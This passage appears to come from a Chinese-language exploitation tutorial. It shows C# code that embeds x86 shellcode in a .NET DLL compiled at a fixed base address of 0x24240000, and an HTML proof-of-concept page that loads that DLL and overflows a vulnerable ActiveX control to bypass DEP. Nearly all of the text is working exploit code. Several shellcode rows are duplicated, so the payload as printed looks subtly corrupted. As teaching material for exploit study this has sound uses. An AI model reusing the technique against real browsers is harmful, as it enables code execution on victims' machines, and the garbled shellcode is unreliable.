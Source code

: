 ![Bildschirmfoto 2018-10-03 um 11.10.47 AM.png]({{ site.url }}/images/0day/39F2E931E11AC44BB3201458EB2CF19E.png)

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode() {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857";
        }
    }
}
```

注意编译为debug版本（release版本的优化选项会影响shellcode），并修改基址为`0x24240000`：

![Bildschirmfoto 2018-10-03 um 11.16.22 AM.png]({{ site.url }}/images/0day/6A21186D291AC9E3761B7E23F73D330C.png)

编译后将其与PoC页面放在同一目录下：

![Bildschirmfoto 2018-10-03 um 11.20.33 AM.png]({{ site.url }}/images/0day/8DD13EB0199C701C867E9E203EB83826.png)

**编写可以触发ActiveX控件中溢出漏洞的PoC页面：**

```html
<html>  
<body>  
  <object classid="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
  <object classid="clsid:03473293-EB7D-4973-83C8-D5F9D448072C" id="test"></object>  
  <script>
	var s = "\u9090";
	while (s.length < 54) {
		s += "\u9090";
	}
	test.test(s); 
  </script>  
</body>  
</html>
```
